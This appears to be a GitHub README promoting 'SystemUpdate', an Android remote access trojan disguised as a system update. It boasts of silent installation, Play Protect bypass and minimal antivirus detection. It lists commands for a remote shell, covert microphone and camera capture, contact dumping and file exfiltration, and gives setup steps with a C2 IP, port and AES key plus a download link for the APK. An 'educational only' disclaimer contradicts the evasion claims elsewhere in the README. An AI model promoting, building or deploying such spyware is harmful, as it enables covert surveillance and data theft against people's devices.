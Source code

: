 # 📱 SystemUpdate – Advanced Android Stealth Background Client (Level 3 Release)

> ⚠️ **DISCLAIMER:**  
> This project is for **educational and security research purposes only**.  
> Do **not** use it on devices you do not own or have explicit permission to test.  
> Misuse may violate laws and is strictly prohibited.

---

## 🔥 Level 3 Highlights (August 2025 Release)

- ✅ Persistent foreground service with stealthy "System Update" disguise  
- 🔐 AES-128 encrypted TCP communication with secure reconnection logic  
- 🛠 Remote shell command execution with live output  
- 🎙 Audio recording (with duration or manual stop)  
- 📷 Photo capture using rear camera  
- 📂 File download (chunked + encrypted) and upload via base64  
- 📁 Storage enumeration from any directory  
- 📞 Contact list extraction  
- 🧾 App listing, network info, processes, and system props  
- 🎞 Media listing (video, image, audio)  
- 📜 Built-in help command and full graceful shutdown logic  
- 🧱 Undetected by Play Protect with realistic install vector  
- 💣 **No known AV flags beyond 1–2 minor detections**

---

## 🎬 Demo – Silent Installation on Android 15
![Demo](./1.gif)
> 📲 APK installs silently on Android 15 (August 2025 patch)  
> Appears as "System Update" with no permission prompts shown to user.  
> Bypasses Play Protect and runs persistently after install.

---
## 📥 Download
> 🔐 Encrypted demo ZIP (APK + media) hosted on Mega:
**[📦 Download from MEGA](https://mega.nz/file/XAN0XbCA#rlk6roGkZ-vHsCohVb2aYOJYtED6xb_aZBfHGoiDm7k)**  
**Password:** `1234`
>
---
## 🧪  VirusTotal Scan Results
- Flagged by **only 2 engines**:
  - `Google` → *Android:Agent-GEN*
  - `IKARUS` → *Trojan.AndroidOS.Agent*
- ✅ **Google Play Protect** allows install and execution.
---
## 🧩 Features & Supported Commands

| Category         | Command                     | Description |
|------------------|------------------------------|-------------|
| 🔍 Recon          | `device_info`                | Get manufacturer, model, SDK version |
|                  | `list_apps`                  | List installed apps |
|                  | `network_info`               | Show interfaces and routes |
|                  | `running_processes`          | List all running processes |
|                  | `system_properties`          | Dump `getprop` output |
| 🗂 Storage        | `enum_storage [path]`        | Recursively walk through storage |
|                  | `listfiles`                  | List `/storage/emulated/0` |
| 🎞 Media         | `medialist`                  | List all media via `MediaStore` |
| 📥 File Access   | `download [path]`            | Download file in encrypted chunks |
|                  | `upload [path] [base64]`     | Upload file by sending base64 |
| 🛠 Shell         | `shell [cmd]`                | Run any Linux command |
| 🔊 Audio         | `record_audio_start [sec]`   | Record mic for N seconds |
|                  | `record_audio_stop`          | Stop recording early |
| 📷 Camera        | `capture_photo`              | Take photo using rear camera |
| 🧾 Contacts      | `contacts`                   | Dump all contact names + numbers |
| 📸 Screenshots   | `capture_screenshot`         | Not implemented (stub) |
| 🎥 Video         | `record_video_start [sec]`   | Not implemented (stub) |
|                  | `record_video_stop`          | Not implemented (stub) |
| ❓ Help          | `help`                       | Show full command list |
| ❌ Exit          | `exit`                       | Shutdown service gracefully |

---
## 🛠 Setup Instructions
1. **Clone this repo**
2. **Edit your connection details**
   Open `PayloadService.kt` and edit:
   ```kotlin
   private val AES_KEY = "A1B2C3D4E5F6G7H8" // 16 bytes key
   private val AES_IV  = "H8G7F6E5D4C3B2A1" // 16 bytes IV
   private val C2_IP   = "10.23.119.57"
   private val C2_PORT = 4444
   '''
---
3. **Download Codes from Mega**
Open in Android Studio
Use Android 10–15+ build target
Sign and export APK
4. **INSTALL_APK**
Use adb install or physical device install
Allow permissions if requested (on older Androids)
5. **Run Server**
Start your TCP listener/server using matching key/IP
Commands can now be issued from server side

---
## 🛠 Educational Purpose Only

SystemUpdate is a sandboxed example for:
Android foreground services
Encrypted socket backchannels
Audio capture, file IO, and system command execution
It is not obfuscated, not polymorphic, and not designed to evade detection long-term.
Use this project to understand, experiment, and learn — not harm.

---
## 🛠 License

This project is licensed under the GNU GPL v3 license.
You're free to use, modify, and redistribute,
but all derived works must remain open-source and preserve the license.
See LICENSE

---
## 🤝 Credits
Made with ♥ for research, reverse engineering, and mobile development training.
